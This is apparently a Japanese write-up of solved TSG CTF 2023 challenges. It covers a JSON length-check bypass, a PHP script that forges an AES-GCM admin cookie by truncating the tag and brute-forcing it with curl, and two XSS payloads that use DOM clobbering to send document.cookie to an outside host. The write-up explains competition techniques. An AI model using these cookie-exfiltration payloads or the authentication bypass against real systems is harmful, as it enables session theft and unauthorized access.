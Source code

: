 ```yaml
---
title: TSG CTF 2023 Writeup
date: 2023-11-09T21:00:00+09:00
type: post
---
```


TokyoWesternsで参加していて2位でした。
コンテスト終了3分後にabsurdresのフラグが降ってきたので悔しい〜

以下解いた問題

## Upside-down cake

1000文字以下の回文を入力できれば勝ち、だがrequest body sizeの制限がかかっており1000文字送りつけることはできない。

`string.length < 1000` などのチェックを以下のJSONで回避する。

```json
{"palindrome":{"length": "a","0":"a","NaN":"a"}}
```

FLAG: `TSGCTF{pilchards_are_gazing_stars_which_are_very_far_away}`

## #DANCE

tagの長さが検証されていない。
以下の記事を見ながらadminのCookieを作る。

https://www.mbsd.jp/research/20200901/aes-gcm/

```php
<?php
$admin = 'admin';
$guest = 'guest';
$xors = [];
for ($i = 0; $i < 5; ++$i) {
  $xors[$i] = ord($admin[$i]) ^ ord($guest[$i]);
}

$iv = 'pMCoutsCcWDg7gRu';
/*
$secret = 'wakaran';
$auth = openssl_encrypt('guest', 'aes-128-gcm', $secret, 0, $iv, $tag);
*/
$auth = 'GEfNr0k=';

$newAuth = base64_decode($auth);
$unpacked = unpack('C*', $newAuth);
for ($i = 0; $i < 5; ++$i) {
  $unpacked[$i+1] = $unpacked[$i+1] ^ $xors[$i];
}
$adminAuth = base64_encode(pack('C*', ...$unpacked));

for ($i = 0; $i < 256; ++$i) {
  $tag = pack('C*', $i);
  /*
  $res = openssl_decrypt($adminAuth, 'aes-128-gcm', $secret, 0, $iv, $tag);
  if ($res) {
    var_dump($i);
    var_dump($res);
    break;
  }
  */
  $tag = base64_encode($tag);
  system("curl http://34.84.176.251:8080/mypage.php -H 'Cookie: auth=$adminAuth; iv=$iv; tag=$tag' --silent");
}
```

FLAG: `TSGCTF{Deadlock_has_been_broken_with_Authentication_bypass!_Now,_repair_website_to_reject_rewritten_CookiE.}`

Web問か...?

## Brainfxxk Challenge

`/minify` APIを使うと入力文字の `><+-=r[]` 以外の文字が消されて出力される。

HTMLは出力できるがCSPで `script-src: 'self'` がかかっているので、 `/minify` APIを使って回避する。

往年のJSFuck問だがDOM Clobberingのおかげで手でもかける。

`location='http://mocos.kitchen:12345/' + document.cookie` を作ることを目標にシコシコ書いていく。

方針:

- `'name'` を作るため、 `<a href='name://'>` を文字列にして1文字目から4文字目を結合
- 必要な各種文字列を `<a>` のnameに設定し、 `r['name']` のようにして読み取る
- `window.location` のかわりに `[IFRAME Element].location` を代入する。

```javascript
rrrrr[
  r[
  rrrr =
  [r + [rr = [] == []]][rr = +rr][rr] + // n
  [r + []][rrr = rr][++rrr] + // a
  [r + []][rr][rrr + rrr] + // m
  [r + []][rr][rrr + rrr + rrr] //e
  ] // 'location'
] =
  rrrrrr + rrrrr[rrrrrr[rrrr]][rrrrrrr[rrrr]] // document.cookie
```

```html
<a name=location id=r href='name://'></a>
<a name=document id=rrrrrr href="http://mocos.kitchen:12345/"></a>
<a name=cookie id=rrrrrrr></a>

<iframe name=rrrrr></iframe>

<script src="/minify?code=rrrrr%5b%0d%0a%20%20r%5b%0d%0a%20%20rrrr%20%3d%0d%0a%20%20%5br%20%2b%20%5brr%20%3d%20%5b%5d%20%3d%3d%20%5b%5d%5d%5d%5brr%20%3d%20%2brr%5d%5brr%5d%20%2b%20%2f%2f%20n%0d%0a%20%20%5br%20%2b%20%5b%5d%5d%5brrr%20%3d%20rr%5d%5b%2b%2brrr%5d%20%2b%20%2f%2f%20a%0d%0a%20%20%5br%20%2b%20%5b%5d%5d%5brr%5d%5brrr%20%2b%20rrr%5d%20%2b%20%2f%2f%20m%0d%0a%20%20%5br%20%2b%20%5b%5d%5d%5brr%5d%5brrr%20%2b%20rrr%20%2b%20rrr%5d%20%2f%2fe%0d%0a%20%20%5d%20%2f%2f%20'location'%0d%0a%5d%20%3d%0d%0a%20%20rrrrrr%20%2b%20rrrrr%5brrrrrr%5brrrr%5d%5d%5brrrrrrr%5brrrr%5d%5d%20%2f%2f%20document.cookie"></script>
```

FLAG: `TSGCTF{u_r_j5fuck_m4573r}`

## absurdres

CSP nonceで制限されているXSS問。
レスポンスに含まれている `![xxx](...)` が `<img srcset="..." alt="xxx">` に変換されるフィルターが存在する。
アップロードしたファイルを閲覧する画面で、script内に `![...](...)` を埋め込むことでエラーを出さないようにパズルをしながら関数を実行する。

```html
        <script nonce="{{csp_nonce()}}">
            const files = {{files|json|safe}};
```

その他、パズルに必要な要素がいっぱい出てくるがざっと列挙してみるとこんな感じ。

- script内に埋め込めるものとしては画像ファイルのファイル名とその拡張子
- ファイル名部分に使える文字はアルファベットのみなので、 `![]().png` のようなファイル名はエラーとなるが、 `/` の前と `.` と `.` の間はなんでもOK `XXXX/FILENAME.XXXX.XXXX` の `XXXX` の部分にペイロード突っ込めるのでまあまあ自由度はある
- ガチャガチャやってると最後に `/assets/images/FILENAME.x2.png` がJavaScriptとして評価されるので邪魔してくる。DOM Clobberingでこれがエラーとならないように対策する。
- アップロードファイルの拡張子がpngやjpgでないとPILによって怒られるため、拡張子に攻撃ペイロードを埋め込むことはできなさそうに見えるが、PILに怒られる前にDBにはレコードが登録されているので画像の閲覧画面には遷移できる。アップロードしたファイルのIDはコンテンツのmd5なので推測可能。

最終的に以下のファイル名のファイルを作ると動作する。

```
testx.)bbb![//test.](.png}];""; id=assets ; name=images `;"<form id=test>${location=(atob('Ly9tb2Nvcy5raXRjaGVuOjEyMzQ1Lw')+document['cookie'])}<input id=x2>";
```

ファイル名に `"` とか入っているが、 `filename*=utf-8''[URL encoded filename]` でOK

```
Content-Disposition: form-data; name="image"; filename*=utf-8''testx.%29bbb!%5b%2f%2ftest.%5d%28.png%7d%5d%3b%22%22%3b%20id%3dassets%20%3b%20name%3dimages%20%60%3b%22%3cform%20id%3dtest%3e%24%7blocation%3d%28atob%28%27Ly9tb2Nvcy5raXRjaGVuOjEyMzQ1Lw%27%29%2bdocument%5b%27cookie%27%5d%29%7d%3cinput%20id%3dx2%3e%22%3b
Content-Type: image/png
```

FLAG: `TSGCTF{1girl, hacker, in front of computer, hooded, in dark room, table, sitting, keyboard, 8k wallpaper, highly detailed, absurdres}`

`navigator.sendBeacon(...)` でFLAGをleakさせようとしていたのだけど、なぜか手元のChromeでは動作してAdmin botではうまく行かなかった...
普通に `location=...` でFLAG飛ばせば動作した。
終了直前に取り組んだため、手元に環境を用意する暇もなく、もっと早く取り組んでおけばと反省した問題。
